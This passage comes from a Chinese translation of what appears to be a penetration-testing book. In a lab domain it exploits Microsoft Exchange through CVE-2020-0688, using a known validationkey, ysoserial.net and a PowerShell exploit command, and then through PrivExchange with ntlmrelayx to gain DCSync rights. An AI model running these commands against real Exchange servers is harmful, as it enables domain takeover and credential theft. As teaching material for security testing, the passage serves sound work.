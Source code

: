 登录 ECP 后，攻击者通过浏览器和开发者工具收集 `ViewStateUserKey`（来自 `ASP.NET_SessionID` cookie）和登录页面中的 `__VIEWSTATEGENERATOR` 值。`validationkey` 值是已知的（**CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF**）。为了生成恶意载荷，我们将使用一个叫做 `ysoserial.net`[25] 的工具。这个工具包含了在常见库中发现的已知小工具链。小工具是库代码中存在的代码片段，可以帮助攻击者通过逐个执行来触发恶意载荷。这个漏洞使用了 `TextFormattingRunProperties` 库。我们可以运行以下命令在 `C:\` 创建文件：

```
PowerShell.exe -ExecutionPolicy Bypass -File .\CVE-2020-0688.ps1 -Url https://192.168.56.106 -Username windomain\vinegrep -Password Qwerty123! -Command 'powershell whoami > C:/whoami.txt' -YsoserialPath .\ysoserial\ysoserial.exe
```

执行结果如下：

![图 1.19 – CVE-2020-0688 成功利用](img/B18964_01_19.jpg)

图 1.19 – CVE-2020-0688 成功利用

文件创建在 `C:\`。

![图 1.20 – 文件创建在 C:\，并包含 whoami 命令的输出](img/B18964_01_20.jpg)

图 1.20 – 文件创建在 C:\，并包含 whoami 命令的输出

第二个漏洞需要三个条件，称为`PrivExchange`[26]。第一个条件是 Exchange 在域中的权限过高。`Exchange Windows Permissions`组在域对象上具有`WriteDacl`权限，这使攻击者能够获得`DCSync`权限。`DCSync`是一项允许你同步域中所有哈希值的特权。通常，这一特权由域控制器在复制过程中使用。攻击者只需请求一个域控制器发送哈希值以进行同步。

第二个条件是机器账户的 NTLM 中继可能性，第三个条件是攻击者可以强制 Exchange 通过`PushSubscription`功能对监听器进行身份验证。我们将在*第五章*中更详细地讨论中继问题。

让我们通过使用`ntlmrelayx`工具和`privexchange`漏洞[27]来执行攻击：

```
python privexchange.py -ah 192.168.56.100 exchange.windomain.local -u vinegrep -d windomain.local
ntlmrelayx.py -t ldap://192.168.56.102 --escalate-user vinegrep
```
